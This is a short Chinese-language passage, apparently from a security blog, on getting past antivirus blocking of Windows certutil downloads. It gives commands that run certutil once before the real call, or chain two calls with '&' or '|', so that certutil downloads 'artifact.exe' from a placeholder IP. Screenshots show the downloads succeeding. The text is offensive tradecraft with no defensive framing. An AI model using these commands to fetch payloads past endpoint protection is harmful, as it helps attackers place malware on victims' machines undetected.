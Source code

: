 这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载exe的命令，可以看到这里已经能够成功下载

```plain
certutil

certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-896e7d07a5f33757c145e4c227120a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152043-888ba748-ca85-1.png)

另外一种方法就是使用windows自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```plain
certutil & certutil -urlcache -split -f http://ip/artifact.exe

certutil | certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-30ef8ad2e3f21e4d71a42aca3f0ce2e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152045-89ab7f36-ca85-1.png)
